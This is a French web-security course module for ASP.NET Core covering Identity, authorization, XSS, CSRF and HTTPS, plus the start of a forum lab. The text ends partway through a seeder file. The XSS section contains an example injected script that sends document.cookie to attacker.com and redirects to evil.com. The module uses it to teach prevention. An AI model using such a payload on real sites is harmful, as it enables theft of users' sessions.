



# Module 7 : Sécuriser vos Applications Web - Guide Complet et Détaillé

## Objectifs Pédagogiques {#objectifs}

À la fin de ce module, vous serez capable de :

* **Différencier** les concepts fondamentaux d'Authentification (AuthN) et d'Autorisation (AuthZ).
* **Intégrer** ASP.NET Core Identity pour ajouter un système complet de gestion des utilisateurs à une application MVC.
* **Sécuriser** des contrôleurs et des actions en utilisant des attributs comme `[Authorize]`.
* **Comprendre** et **prévenir** les deux attaques web les plus courantes : Cross-Site Scripting (XSS) et Cross-Site
  Request Forgery (CSRF).
* **Expliquer** le rôle crucial du protocole HTTPS.
* **Créer** un système de login/register personnalisé avec des contrôleurs MVC.
* **Mettre en place** un système de fixtures pour pré-remplir la base de données avec des utilisateurs de test.

---

## Introduction : La sécurité de votre maison {#introduction}

Vous avez bâti une magnifique maison (votre application). Elle est fonctionnelle, bien agencée et prête à accueillir des
visiteurs. Mais avez-vous pensé à installer des serrures, une alarme, et à vérifier l'identité de ceux qui entrent ? Une
maison sans sécurité est une invitation aux problèmes.

La sécurité web n'est pas une option, c'est une fondation. Dans ce module, nous allons apprendre à être le "chef de la
sécurité" de notre application. Nous allons installer un système de contrôle d'accès sophistiqué, apprendre à déjouer
les techniques des cambrioleurs du web et nous assurer que les conversations entre nos visiteurs et notre maison sont
totalement privées. Ignorer ces principes, c'est comme laisser la porte d'entrée grande ouverte avec un mot "Bienvenue"
sur le paillasson.

### Pourquoi la sécurité est critique

```
┌─────────────────────────────────────────────────┐
│         LES RISQUES D'UNE APP NON SÉCURISÉE     │
├─────────────────────────────────────────────────┤
│                                                 │
│  Vol de données personnelles                    │
│     → Emails, mots de passe, coordonnées        │
│                                                 │
│  Fraudes financières                            │
│     → Transactions non autorisées               │
│                                                 │
│  Prise de contrôle de comptes                   │
│     → Usurpation d'identité                     │
│                                                 │
│  Perte de réputation                            │
│     → Clients perdent confiance                 │
│                                                 │
│  Conséquences légales                           │
│     → Amendes RGPD jusqu'à 4% du CA             │
│                                                 │
└─────────────────────────────────────────────────┘
```

---

## 1. Authentification vs. Autorisation : Les deux piliers de la sécurité {#auth-vs-authz}

Avant toute chose, il faut maîtriser deux concepts qui sont souvent confondus.

Pensez à l'entrée d'un immeuble de bureaux sécurisé :

### Authentification (AuthN) : "Qui êtes-vous ?"

C'est le processus de **vérification de votre identité**. Vous présentez votre badge d'employé au lecteur. Le système
vérifie que ce badge est valide et qu'il correspond à une personne enregistrée.

**Exemples concrets :**

- Login avec email et mot de passe
- Authentification à deux facteurs (2FA)
- Connexion via Google/Facebook (OAuth)
- Reconnaissance biométrique

### Autorisation (AuthZ) : "Qu'avez-vous le droit de faire ?"

Une fois que le système sait qui vous êtes, il vérifie vos **droits et permissions**. Votre badge ouvre la porte
d'entrée, mais peut-être pas la porte du bureau du PDG ou celle de la salle des serveurs.

**Exemples concrets :**

- Un utilisateur peut voir son profil, mais pas celui des autres
- Un modérateur peut supprimer des commentaires
- Un administrateur peut gérer les utilisateurs
- Un éditeur peut publier des articles

### Règle d'or

**On ne peut pas autoriser quelqu'un si on ne l'a pas d'abord authentifié.**

### Diagramme de Séquence



### Illustration du flux complet

```
┌─────────────────────────────────────────────────────────────────┐
│                    FLUX D'AUTHENTIFICATION                      │
└─────────────────────────────────────────────────────────────────┘

1️⃣  UTILISATEUR VISITE LE SITE
    └─> Pas de cookie → Statut : Anonyme

2️⃣  CLICK SUR "SE CONNECTER"
    └─> Affiche formulaire login

3️⃣  SOUMET EMAIL + MOT DE PASSE
    └─> POST vers /Account/Login

4️⃣  SERVEUR VÉRIFIE
    ├─> Cherche user par email dans DB
    ├─> Compare hash du mot de passe
    └─> Si OK : Crée cookie chiffré

5️⃣  COOKIE RENVOYÉ AU NAVIGATEUR
    └─> Stocké automatiquement

6️⃣  REQUÊTES SUIVANTES
    └─> Cookie envoyé automatiquement
        └─> Middleware déchiffre
            └─> User.Identity.IsAuthenticated = true

┌─────────────────────────────────────────────────────────────────┐
│                      FLUX D'AUTORISATION                        │
└─────────────────────────────────────────────────────────────────┘

1️⃣  UTILISATEUR AUTHENTIFIÉ
    └─> On sait QUI c'est (Bob, ID: 123)

2️⃣  TENTE D'ACCÉDER À /Admin/Dashboard
    └─> Attribut [Authorize(Roles = "Admin")]

3️⃣  FRAMEWORK VÉRIFIE
    ├─> User.IsInRole("Admin") ?
    └─> Résultat : False

4️⃣  RÉSULTAT
    └─> Return Forbid() → HTTP 403
```

---

## 2. ASP.NET Core Identity : Votre service de sécurité intégré {#identity}

### Le problème

Mettre en place un système de gestion d'utilisateurs est **extrêmement complexe**. Il faut gérer :

- L'inscription avec validation d'email
- La connexion sécurisée
- Le hachage sécurisé des mots de passe (BCrypt, PBKDF2)
- La confirmation par email
- La réinitialisation de mot de passe
- L'authentification à deux facteurs (2FA)
- Le verrouillage de compte après échecs
- La gestion des sessions
- Les connexions externes (Google, Facebook)
- Les tokens anti-CSRF

**Le faire soi-même est une recette pour les failles de sécurité.**

### La solution : ASP.NET Core Identity

**ASP.NET Core Identity** est une solution "clés en main" fournie par Microsoft. C'est un service de sécurité complet et
éprouvé qui gère tout cela pour vous. Il s'intègre parfaitement avec Entity Framework Core pour stocker les utilisateurs
et leurs informations dans votre base de données.

### Comment fonctionne l'authentification par cookie

Le modèle d'authentification par défaut pour Identity dans une application MVC est basé sur les **cookies**.



#### Détail du processus

1. **L'utilisateur se connecte avec succès**
    - Le système valide l'email et le mot de passe

2. **Le serveur crée un cookie d'authentification chiffré**
   ```
   Cookie contient (chiffré) :
   - UserId : "550e8400-e29b-41d4-a716-446655440000"
   - Email : "bob@forum.com"
   - Roles : ["Member", "Moderator"]
   - Expiration : 2026-02-13 14:30:00
   - Token anti-falsification
   ```

3. **Le cookie est renvoyé au navigateur**
    - Header HTTP : `Set-Cookie: .AspNetCore.Identity.Application=CfDJ8...`

4. **Le navigateur inclut automatiquement ce cookie dans toutes les requêtes suivantes**
    - Pas besoin de code JavaScript
    - Le navigateur fait ça nativement

5. **Le middleware d'authentification intercepte chaque requête**
    - Déchiffre le cookie
    - Reconstitue l'objet `User` (ClaimsPrincipal)
    - Rend disponible via `HttpContext.User`

### Utilisation basique

Une fois Identity en place, sécuriser un contrôleur ou une action devient un jeu d'enfant avec l'attribut `[Authorize]`.

```c#
// Seuls les utilisateurs connectés peuvent accéder à n'importe quelle
// action de ce contrôleur.
[Authorize]
public class AccountController : Controller
{
    public IActionResult Profile() 
    {
        // Ici, on est SÛR que l'utilisateur est authentifié
        var userId = User.FindFirstValue(ClaimTypes.NameIdentifier);
        var email = User.Identity.Name;
        
        return View();
    }
}

public class HomeController : Controller
{
    // Tout le monde peut voir la page d'accueil
    public IActionResult Index() 
    { 
        return View(); 
    }

    // Mais il faut être connecté pour voir la page de confidentialité
    [Authorize]
    public IActionResult Privacy() 
    { 
        return View(); 
    }
}
```

---

## 3. Prévenir les Attaques Web Courantes {#attaques}

### Cross-Site Scripting (XSS)

#### Le problème

Un utilisateur malveillant réussit à **injecter du code JavaScript** dans votre site, par exemple via un champ de
commentaire. Quand d'autres utilisateurs afficheront ce commentaire, leur navigateur exécutera le script malveillant,
qui pourrait voler leurs cookies ou leurs informations.

#### L'analogie

C'est comme si quelqu'un laissait une note piégée sur un tableau d'affichage public. Toute personne qui la lit déclenche
le piège.

#### Exemple d'attaque

```html
<!-- Formulaire de commentaire -->
<form method="post" action="/Comment/Create">
    <textarea name="content"></textarea>
    <button>Envoyer</button>
</form>

<!-- Un attaquant entre ce contenu : -->
<script>
    // Voler le cookie de session
    fetch('https://attacker.com/steal?cookie=' + document.cookie);

    // Rediriger vers un site malveillant
    window.location = 'https://evil.com';

    // Modifier le contenu de la page
    document.body.innerHTML = '<h1>Site hacké!</h1>';
</script>
```

Quand un autre utilisateur voit ce commentaire, le script s'exécute dans **SON** navigateur et compromet **SON** compte.

#### La solution : Encodage automatique de Razor

Par défaut, **le moteur de vue Razor encode automatiquement toutes les données que vous affichez**.

```c#
@{
    string maliciousComment = "<script>alert('hacké')</script>";
}

<!-- SÉCURISÉ : Razor encode le script -->
<p>Commentaire : @maliciousComment</p>

<!-- 
Résultat HTML généré :
<p>Commentaire : &lt;script&gt;alert('hacké')&lt;/script&gt;</p>

Le navigateur affiche : <script>alert('hacké')</script>
Mais ne l'EXÉCUTE PAS car c'est du texte, pas du HTML
-->

<!-- VULNÉRABLE : Vous injectez le script directement -->
<p>Commentaire : @Html.Raw(maliciousComment)</p>

<!--
Résultat HTML généré :
<p>Commentaire : <script>alert('hacké')</script></p>

Le navigateur EXÉCUTE le script !
-->
```

#### Règles de sécurité

```c#
// BON : Laisser Razor encoder (défaut)
<div>@Model.UserInput</div>

// BON : Encoder manuellement si nécessaire
<div>@Html.Encode(Model.UserInput)</div>

// DANGEREUX : Ne JAMAIS faire avec des données utilisateur
<div>@Html.Raw(Model.UserInput)</div>

// BON : Html.Raw UNIQUEMENT pour du contenu contrôlé
<div>@Html.Raw(Model.AdminGeneratedHTML)</div>
```

> **ATTENTION : N'utilisez JAMAIS `@Html.Raw()` sur des données provenant d'un utilisateur.**

---

### Cross-Site Request Forgery (CSRF ou XSRF)

#### Le problème

Vous êtes connecté au site de votre banque. Un pirate vous envoie un email avec un lien vers une "image de chat mignon".
Vous cliquez. La page que vous ouvrez contient un formulaire invisible qui effectue une opération de virement sur le
site de votre banque. Votre navigateur, serviable, envoie le cookie de session de votre banque avec la requête. La
banque voit une requête valide venant de vous et effectue le virement.

#### L'analogie

Un faussaire envoie un ordre de paiement à votre banque. Il ne connaît pas votre signature, mais il a réussi à vous
faire apposer votre signature (le cookie) sur le document à votre insu.

#### Diagramme de l'attaque



#### La solution : Anti-Forgery Tokens

ASP.NET Core le fait presque automatiquement.

**Comment ça marche :**

1. **Quand il affiche un formulaire**, le serveur y place un champ caché avec un **jeton unique et aléatoire**. Il place
   aussi ce jeton dans un **cookie**.

2. **Quand le formulaire est soumis**, le serveur vérifie que le jeton du formulaire correspond bien à celui du cookie.

3. **Un site pirate ne peut pas** :
    - Lire le jeton (politique Same-Origin)
    - Deviner le jeton (cryptographiquement sécurisé)

#### Comment l'activer

**Dans la vue (Razor) :**

```html
<!-- Les Tag Helpers ajoutent AUTOMATIQUEMENT le token -->
<form asp-action="Create" asp-controller="Topic" method="post">
    <input type="text" name="Title"/>
    <textarea name="Content"></textarea>
    <button type="submit">Créer</button>
</form>

<!-- HTML généré contient : -->
<form action="/Topic/Create" method="post">
    <input name="__RequestVerificationToken" type="hidden"
           value="CfDJ8Abc123XyZ789...un_token_très_long_et_unique"/>
    <input type="text" name="Title"/>
    <textarea name="Content"></textarea>
    <button type="submit">Créer</button>
</form>
```

**Dans le contrôleur :**

```c#
[HttpPost]
[ValidateAntiForgeryToken] // ← Vérifie le token
public IActionResult Create(TopicCreateModel model)
{
    // Le framework a DÉJÀ vérifié le token
    // Si invalide, une exception est lancée AVANT d'arriver ici
    
    if (ModelState.IsValid)
    {
        // Code de création...
    }
    
    return View(model);
}
```

#### Protection automatique globale

Pour protéger TOUS les formulaires sans avoir à ajouter `[ValidateAntiForgeryToken]` partout :

```c#
// Dans Program.cs
builder.Services.AddControllersWithViews(options =>
{
    // Ajoute automatiquement la validation CSRF sur toutes les actions [HttpPost]
    options.Filters.Add(new AutoValidateAntiforgeryTokenAttribute());
});
```

---

## 4. HTTPS : La conversation privée {#https}

### Le problème

Sans HTTPS, toutes les données échangées entre le navigateur de l'utilisateur et votre serveur (mots de passe,
informations de carte de crédit, cookies) voyagent **en clair** sur Internet. N'importe qui sur le même réseau (ex: un
Wi-Fi public) peut les intercepter et les lire.

### La solution : HTTPS

**HTTPS (HyperText Transfer Protocol Secure)** chiffre la communication entre le navigateur et le serveur.

### L'analogie

- **HTTP** : Envoyer une carte postale. Tout le monde peut la lire pendant son transport.
- **HTTPS** : Mettre cette même carte dans une enveloppe scellée et blindée.

### Diagramme : HTTP vs HTTPS

```
┌─────────────────────────────────────────────────┐
│              HTTP (Non sécurisé)                │
├─────────────────────────────────────────────────┤
│                                                 │
│  Navigateur ─────────────────────> Serveur     │
│             email: bob@mail.com                 │
│             password: Secret123!                │
│             cookie: session=abc123              │
│                                                 │
│              Attaquant (même Wi-Fi)             │
│              Peut TOUT lire en clair            │
│                                                 │
└─────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────┐
│              HTTPS (Sécurisé)                   │
├─────────────────────────────────────────────────┤
│                                                 │
│  Navigateur ─────────────────────> Serveur      │
│                Xk8#mP9@qL2...                   │
│                9L3$kM2@pQ8...                   │
│                5N7!hK4@rT1...                   │
│                                                 │
│           Attaquant                             │
│              Voit du charabia incompréhensible  │
│              Seuls navigateur et serveur        │
│              peuvent déchiffrer                 │
│                                                 │
└─────────────────────────────────────────────────┘
```

### Comment l'activer

#### En développement

ASP.NET Core génère automatiquement un certificat de développement.

```bash
# Installer le certificat de développement (une seule fois)
dotnet dev-certs https --trust
```

#### Dans Program.cs

```c#
var builder = WebApplication.CreateBuilder(args);

// ... configuration des services ...

var app = builder.Build();

// Redirige automatiquement HTTP vers HTTPS
app.UseHttpsRedirection();

// En production : ajouter HSTS (HTTP Strict Transport Security)
if (!app.Environment.IsDevelopment())
{
    // Force les navigateurs à TOUJOURS utiliser HTTPS
    app.UseHsts();
}

app.UseStaticFiles();
app.UseRouting();
app.UseAuthentication();
app.UseAuthorization();

app.MapControllerRoute(
    name: "default",
    pattern: "{controller=Home}/{action=Index}/{id?}");

app.Run();
```

#### En production

Votre service d'hébergement (Azure, AWS...) ou votre reverse proxy (Nginx, IIS) se chargera d'installer un certificat
SSL/TLS et de gérer la terminaison HTTPS.

---

## TP : Sécurisation d'un Forum de Discussion {#tp}

### Contexte du Projet

Nous allons construire et sécuriser une application de forum très simple. Les utilisateurs pourront s'inscrire, se
connecter, créer de nouveaux sujets de discussion et poster des réponses.

### Les règles de sécurité

1. Tout le monde (même les visiteurs anonymes) peut voir la liste des sujets et lire les messages.
2. Seuls les utilisateurs connectés peuvent créer un nouveau sujet ou répondre à un sujet existant.
3. Seuls les créateurs d'un message (le sujet initial ou une réponse) peuvent le modifier.
4. Seuls les utilisateurs ayant le rôle "Moderator" peuvent supprimer n'importe quel message.

### Objectifs du TP

* Mettre en place ASP.NET Core Identity de A à Z
* Créer un système de login/register avec des contrôleurs MVC personnalisés
* Créer toutes les vues Razor nécessaires
* Mettre en place un système de fixtures pour créer des utilisateurs de test
* Gérer les relations entre les données et les utilisateurs (`IdentityUser`)
* Appliquer l'autorisation basée sur l'identité (vérifier que l'utilisateur est le créateur)
* Mettre en place et utiliser l'autorisation basée sur les rôles ("Moderator")

---

## Étape 1 : Intégration d'ASP.NET Core Identity

### 1.1 Créer le projet

```bash
# Créer un nouveau projet MVC
dotnet new mvc -n SecureForumApp
cd SecureForumApp

# Créer la structure de dossiers
mkdir Data
mkdir Data/Entities
mkdir Data/Seeders
mkdir ViewModels
```

### 1.2 Installer les packages NuGet nécessaires

```bash
# Entity Framework Core avec SQLite
dotnet add package Microsoft.EntityFrameworkCore.Sqlite --version 8.0.0
dotnet add package Microsoft.EntityFrameworkCore.Design --version 8.0.0
dotnet add package Microsoft.EntityFrameworkCore.Tools --version 8.0.0

# ASP.NET Core Identity
dotnet add package Microsoft.AspNetCore.Identity.EntityFrameworkCore --version 8.0.0
```

**Explication des packages :**

- `Microsoft.EntityFrameworkCore.Sqlite` : Permet d'utiliser SQLite comme base de données
- `Microsoft.EntityFrameworkCore.Design` : Outils pour les migrations
- `Microsoft.EntityFrameworkCore.Tools` : Commandes CLI pour EF Core
- `Microsoft.AspNetCore.Identity.EntityFrameworkCore` : Intégration d'Identity avec EF Core

### 1.3 Créer les entités de base

#### Data/Entities/Topic.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.Data.Entities
{
    public class Topic
    {
        public int Id { get; set; }
        
        [Required(ErrorMessage = "Le titre est obligatoire")]
        [StringLength(200, MinimumLength = 5, 
            ErrorMessage = "Le titre doit contenir entre 5 et 200 caractères")]
        public string Title { get; set; } = string.Empty;
        
        public DateTime CreatedAt { get; set; }
        
        public ICollection<Post> Posts { get; set; } = new List<Post>();
    }
}
```

#### Data/Entities/Post.cs

```c#
using System.ComponentModel.DataAnnotations;

namespace SecureForumApp.Data.Entities
{
    public class Post
    {
        public int Id { get; set; }
        
        [Required(ErrorMessage = "Le contenu est obligatoire")]
        [StringLength(2000, MinimumLength = 5, 
            ErrorMessage = "Le contenu doit contenir entre 5 et 2000 caractères")]
        public string Content { get; set; } = string.Empty;
        
        public DateTime CreatedAt { get; set; }
        
        public int TopicId { get; set; }
        public Topic Topic { get; set; } = null!;
    }
}
```

### 1.4 Créer le DbContext avec Identity

#### Data/ApplicationDbContext.cs

```c#
using Microsoft.AspNetCore.Identity;
using Microsoft.AspNetCore.Identity.EntityFrameworkCore;
using Microsoft.EntityFrameworkCore;
using SecureForumApp.Data.Entities;

namespace SecureForumApp.Data
{
    /// <summary>
    /// Contexte de base de données principal.
    /// Hérite de IdentityDbContext pour intégrer Identity.
    /// </summary>
    public class ApplicationDbContext : IdentityDbContext<IdentityUser>
    {
        public ApplicationDbContext(DbContextOptions<ApplicationDbContext> options)
            : base(options)
        {
        }
        
        // DbSets pour nos entités
        public DbSet<Topic> Topics { get; set; } = null!;
        public DbSet<Post> Posts { get; set; } = null!;
        
        protected override void OnModelCreating(ModelBuilder builder)
        {
            // IMPORTANT : Appeler la configuration de base d'Identity
            base.OnModelCreating(builder);
            
            // Configuration de la relation Topic -> Posts
            builder.Entity<Topic>()
                .HasMany(t => t.Posts)
                .WithOne(p => p.Topic)
                .HasForeignKey(p => p.TopicId)
                .OnDelete(DeleteBehavior.Cascade);
        }
    }
}
```

**Explication :**

- `IdentityDbContext<IdentityUser>` : Classe de base qui contient tous les DbSets Identity (Users, Roles, etc.)
- `base.OnModelCreating(builder)` : **CRUCIAL** - Configure les tables Identity
- Sans cet appel, les migrations Identity ne seront pas créées

### 1.5 Configurer les services dans Program.cs

#### Program.cs

```c#
using Microsoft.AspNetCore.Identity;
using Microsoft.EntityFrameworkCore;
using SecureForumApp.Data;

var builder = WebApplication.CreateBuilder(args);

// 1. Configuration de la base de données
builder.Services.AddDbContext<ApplicationDbContext>(options =>
    options.UseSqlite("Data Source=forum.db"));

// 2. Configuration d'Identity avec options de sécurité
builder.Services.AddDefaultIdentity<IdentityUser>(options => 
{
    // Options de mot de passe
    options.Password.RequireDigit = true;
    options.Password.RequireLowercase = true;
    options.Password.RequireUppercase = true;
    options.Password.RequireNonAlphanumeric = true;
    options.Password.RequiredLength = 8;
    
    // Options de verrouillage de compte
    options.Lockout.DefaultLockoutTimeSpan = TimeSpan.FromMinutes(5);
    options.Lockout.MaxFailedAccessAttempts = 5;
    options.Lockout.AllowedForNewUsers = true;
    
    // Options de compte utilisateur
    options.User.RequireUniqueEmail = true;
    
    // En développement : désactiver la confirmation d'email
    options.SignIn.RequireConfirmedAccount = false;
    options.SignIn.RequireConfirmedEmail = false;
})
.AddRoles<IdentityRole>() // Support des rôles
.AddEntityFrameworkStores<ApplicationDbContext>();

// 3. Configuration des cookies
builder.Services.ConfigureApplicationCookie(options =>
{
    options.Cookie.HttpOnly = true; // Protection XSS
    options.ExpireTimeSpan = TimeSpan.FromHours(24);
    options.LoginPath = "/Account/Login"; // Notre contrôleur personnalisé
    options.AccessDeniedPath = "/Account/AccessDenied";
    options.SlidingExpiration = true;
});

// 4. Ajouter les contrôleurs et vues
builder.Services.AddControllersWithViews();

var app = builder.Build();

// Configuration du pipeline HTTP
if (!app.Environment.IsDevelopment())
{
    app.UseExceptionHandler("/Home/Error");
    app.UseHsts();
}

app.UseHttpsRedirection();
app.UseStaticFiles();
app.UseRouting();

// ORDRE IMPORTANT
app.UseAuthentication(); // Qui es-tu ?
app.UseAuthorization();  // Que peux-tu faire ?

app.MapControllerRoute(
    name: "default",
    pattern: "{controller=Home}/{action=Index}/{id?}");

app.Run();
```

### 1.6 Créer la migration initiale

```bash
# Créer la migration (inclut Identity + nos entités)
dotnet ef migrations add InitialCreate

# Appliquer la migration (créer la base de données)
dotnet ef database update
```

**Tables créées :**

```
Tables Identity (automatiques) :
├─ AspNetUsers            (utilisateurs)
├─ AspNetRoles            (rôles)
├─ AspNetUserRoles        (association users-roles)
├─ AspNetUserClaims       (revendications)
├─ AspNetUserLogins       (logins externes)
├─ AspNetUserTokens       (tokens de sécurité)
└─ AspNetRoleClaims       (revendications de rôles)

Tables personnalisées :
├─ Topics
└─ Posts
```

---

## Étape 2 : Association des Données aux Utilisateurs

Maintenant, nous allons lier nos entités `Topic` et `Post` aux utilisateurs Identity.

### 2.1 Modifier les entités

#### Data/Entities/Topic.cs (mise à jour)

```c#
using System.ComponentModel.DataAnnotations;
using Microsoft.AspNetCore.Identity;

namespace SecureForumApp.Data.Entities
{
    public class Topic
    {
        public int Id { get; set; }
        
        [Required(ErrorMessage = "Le titre est obligatoire")]
        [StringLength(200, MinimumLength = 5)]
        public string Title { get; set; } = string.Empty;
        
        public DateTime CreatedAt { get; set; }
        public DateTime? UpdatedAt { get; set; }
        
        // AJOUT : Relation avec l'auteur
        [Required]
        public string AuthorId { get; set; } = string.Empty;
        public IdentityUser Author { get; set; } = null!;
        
        public ICollection<Post> Posts { get; set; } = new List<Post>();
    }
}
```

#### Data/Entities/Post.cs (mise à jour)

```c#
using System.ComponentModel.DataAnnotations;
using Microsoft.AspNetCore.Identity;

namespace SecureForumApp.Data.Entities
{
    public class Post
    {
        public int Id { get; set; }
        
        [Required(ErrorMessage = "Le contenu est obligatoire")]
        [StringLength(2000, MinimumLength = 5)]
        public string Content { get; set; } = string.Empty;
        
        public DateTime CreatedAt { get; set; }
        public DateTime? UpdatedAt { get; set; }
        
        // AJOUT : Relation avec l'auteur
        [Required]
        public string AuthorId { get; set; } = string.Empty;
        public IdentityUser Author { get; set; } = null!;
        
        public int TopicId { get; set; }
        public Topic Topic { get; set; } = null!;
    }
}
```

### 2.2 Mettre à jour le DbContext

#### Data/ApplicationDbContext.cs (mise à jour)

```c#
protected override void OnModelCreating(ModelBuilder builder)
{
    base.OnModelCreating(builder);
    
    // Configuration Topic -> Author
    builder.Entity<Topic>()
        .HasOne(t => t.Author)
        .WithMany()
        .HasForeignKey(t => t.AuthorId)
        .OnDelete(DeleteBehavior.Restrict); // Empêche suppression en cascade
    
    // Configuration Post -> Author
    builder.Entity<Post>()
        .HasOne(p => p.Author)
        .WithMany()
        .HasForeignKey(p => p.AuthorId)
        .OnDelete(DeleteBehavior.Restrict);
    
    // Configuration Topic -> Posts
    builder.Entity<Topic>()
        .HasMany(t => t.Posts)
        .WithOne(p => p.Topic)
        .HasForeignKey(p => p.TopicId)
        .OnDelete(DeleteBehavior.Cascade);
}
```

### 2.3 Créer une nouvelle migration

```bash
dotnet ef migrations add AddAuthorToContent
dotnet ef database update
```

---

## Étape 3 : Système de Fixtures (Données de Test)

Les **fixtures** sont des données de test pré-créées pour faciliter le développement. Nous allons créer :

- Des rôles (Admin, Moderator, Member)
- Des utilisateurs de test avec mots de passe connus
- Des topics et posts d'exemple

### 3.1 Créer le Seeder principal

#### Data/Seeders/DatabaseSeeder.cs

```c#
using Microsoft.AspNetCore.Identity;
